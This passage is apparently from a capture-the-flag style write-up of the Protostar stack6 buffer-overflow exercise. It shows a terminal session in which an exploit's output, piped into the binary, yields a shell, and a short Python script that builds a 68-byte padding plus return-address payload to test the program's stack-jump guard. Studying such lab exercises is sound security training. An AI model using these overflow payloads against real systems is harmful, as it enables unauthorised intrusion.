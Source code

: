 ``` code
pi@raspberrypi:~/protostar/stack6 $ python exploit.py > exploit
pi@raspberrypi:~/protostar/stack6 $ cat exploit - | ./stack6
input path please:
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<��vlk�vBBBBBBBB�9�v
pwd
/home/pi/protostar/stack6
exit
```

Done :)

---

Let's try to check my 'patch' in the source code, jumping to the stack.

```python
import struct

padding = 'A' * 68
address_stack = 0x7efdf100

payload = padding + struct.pack('<I', address_stack)

print payload
```

```code
pi@raspberrypi:~/protostar/stack6 $ python check_patch.py > address_stack
pi@raspberrypi:~/protostar/stack6 $ cat address_stack - | ./stack6
input path please: Jump to : 7e0f5ff
bzzzt... don't jump to the stack

```

It works :)
